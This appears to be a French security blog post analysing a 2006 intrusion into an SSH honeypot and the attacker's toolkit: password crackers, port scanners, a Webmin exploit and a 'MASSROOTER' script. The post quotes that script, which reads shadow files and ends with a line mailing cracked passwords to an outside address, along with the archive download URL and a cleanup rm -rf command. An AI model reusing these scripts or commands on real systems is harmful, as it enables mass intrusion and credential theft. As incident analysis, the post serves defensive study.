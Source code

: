 ```yaml
---
title: "Intrusion du 24 novembre 2006"
tags: [honeypot]
---
```


## Exploit kit

Pour plus d'information sur [Kojoney](http://kojoney.sourceforge.net/), un honeypot ssh, reportez-vous à [un de mes précédents billets](http://devloop.users.sourceforge.net/index.php?article11/kojoney).  

Une attaque brute force contre les comptes ssh a été lancée le 23 nomvembre aux alentours de 16 heures. La machine attaquante est localisée en norvège. Le FAI est [telenor.no](http://www.telenor.no/).  

L'attaque est plutôt efficace et prend fin à 16h07 après avoir trouvé différents passwords par défaut (`ftp`, `mysql`, `guest`, `admin`).  

Le 24 à minuit et 43 minutes, le pirate se connecte en utilisant le compte `ftp`. Son adresse IP le situe en Roumanie (FAI [Romtelecom](http://www.romtelecom.ro/)). Aucune autre visite n'a eu lieu entre la fin du brute force et son arrivée.  

Plusieurs commandes sont lancées afin d'obtenir plus d'informations sur la machine :  

```bash
uname -a
hostname
cat /proc/cpuinfo
```

Le visiteur vérifie aussi brievement la présence des commandes `tar` et `wget`.  

Il va alors tenter à plusieurs reprises de télécharger une archive gzip ([conf.tar.gz](http://dary.ro/conf.tar.gz)) mais qui échoue comme le honeypot est à *"faible interraction"* (aucune commande n'est réellement exécutée, tout est simulé)  

Les fichiers présents dans cette archive sont (avec le résultat de la commande file) :  

- **all.chr**: data  

- **alnum.chr**: data  

- **alpha.chr**: data  

- auto: Bourne-Again shell script text executable  

- clean: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **digits.chr**: data  

- do: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- ex.pl: perl script text executable  

- **john**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, dynamically linked (uses shared libs), stripped  

- **john.conf**: ASCII English text  

- **lanman.chr**: data  

- **mailer**: Bourne shell script text executable  

- o: Bourne-Again shell script text executable  

- **password.lst**: ASCII English text  

- pscan2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- scan: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- ss: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- try: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **unafs**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unique**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unshadow**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped

## Password collector

Les noms de fichiers que j'ai mis en gras devraient être familier à tout ceux qui ont déjà utilisé [John the Ripper](http://www.openwall.com/john/) (un casseur de mot de passe local). La personne qui a généré l'archive n'a visiblement pas fait le tri (`unafs`, `mailer`, `lanman.chr` et `unique` n'auront probablement pas d'utilité pour l'attaquant)  

Le script `o` lance john sur plusieurs fichiers (non présents) avec l'option `-show` pour afficher les password cassés. Le fichier a sans doute été mis par erreur ou laissé par oubli.  
Le script `auto` demande un début d'adresse IP (par exemple `192.168.0`) et un nom de fichier. Il génère alors une liste d'ips à l'aide d'une boucle (0 -> 255)  

Le script perl [ex.pl](http://www.milw0rm.com/exploits/2017) est un exploit pour *Webmin* qui date de juillet 2006.  

Les binaires sont assez énigmatiques. `clean` semble plus ou moins crypté pour cacher son rôle (un `strings` ne renvoit rien d'intéressant).  

En réalité il lance juste la commande suivante : `rm -rf pass pass2 pass3 john.pot restore john.log ips bios.txt *.pscan.10* wget-log* spart* core*`  

On peut se demander l'utilité de passer par un fichier ELF alors qu'un script shell aurait été plus rapide et surtout plus portable...  

`pscan2` est un scanneur de port horizontal (même port, ips différentes) assez simple qui enregistre les résultats dans un fichier. J'ai pu retrouver [le fichier source sur Internet](http://members.xoom.virgilio.it/zikkolo/federico/pscan.c).

## Washington est dans la place ! Tout baigne !

`ss` est pour le moins surprenant. Là encore le programme dissimule son contenu. En fait il s'agit d'un scanneur de port horizontal tout comme `pscan2` mais bien plus évolué. Il est linké statiquement avec la librairie `pcap` et envoit des paquets SYN au lieu d'établir des connexions complètes. Le traffic est sniffé afin de détecter quelles machines répondent (et donc savoir celles qui ont un port ouvert).  

Ce programme serait tout à fait lambda dans la trousse d'un pirate informatique si les machines qu'il scanne par défaut n'étaient pas aussi *spéciales*.  

Il semble avoir un intérêt tout particulier pour les sites gouvernementaux et militaires ainsi que les centres de recherches. Ainsi il envoit des paquets sur un bon nombre de *.mil*, de *.gov* (et *.gov.cctld*), des *.edu* (comme le célèbre MIT) etc etc.  

Au moins on ne peut pas lui reprocher de faire de la discrimination : Washington, Tel Aviv... et même du côté du soleil levant... tout y passe !  

Les résultats sont enregistrés dans un fichier `bios.txt`.

Tout comme `clean`, `scan` est juste un script shell passé en binaire pour rendre plus difficile à comprendre son fonctionnement.

## Scan, crack, leak, repeat

Après avoir définit un code couleur, il lance les commandes suivantes :  

```bash
if [ $# != 1 ]; then
        echo se da: $0 <b class>
        exit;
fi

echo ${YEL}#@@@@@@@@@@@@@@@${BLU}MASSROOTER${YEL}@@@@@@@@@@@@@@@@@@#
echo ${YEL}############${BLU}By b-u-f-u ,lego & dary ${YEL}#########
echo ${YEL}###############${RED}PRIVATE SHIT${YEL}##################
echo ${RES}

./pscan2 $1 20000
sleep 10
cat $1.pscan.20000 |sort |uniq > ips
./do ips
rm -rf ips
echo ${DGRN}#BAFTA!....
echo ${RES}
```

Ce script utilise `pscan2` pour trouver des machines ayant un port Webmin ouvert (20000) puis pour chaque machine correspondant à ces critères il appelle le programme `do`.

Là vous vous demandez *mais à quoi sert le binaire do ?*  

Et bien c'est la partie qui automatise l'attaque. Pour chaque adresse IP trouvée dans le fichier passé en paramêtre (ips dans ce cas), l'exploit pour Webmin est lancé et va tenter d'accèder au fichier `/etc/shadow` du serveur. Différentes tentatives sont faites afin de couvrir différents systèmes (par exemple `master.passwd` pour BSD)  

Les résultats obtenus sont placés dans les fichiers `pass`, `pass2`, `pass3`.  

Pour chacun de ces fichiers `John the Ripper` est lancé en tâche de fond afin de casser les mots de passe. Le résultat final ce sont les éventuels passwords trouvés mis dans un fichier `vuln` et envoyés sur une boîte mail :  

```bash
cat vuln | mail -s woot woot $1 conf.team@gmail.com
```

La commande `try` semble faire la même chose que `do`.

L'intrusion en elle même n'était pas exceptionnelle mais les binaires étaient pour le moins intéressants...  

L'étude a été faite dans un environnement chrooté avec des outils comme strace, ltrace et [SoapBox](http://dag.wieers.com/home-made/soapbox/)

*Published January 08 2011 at 13:54*
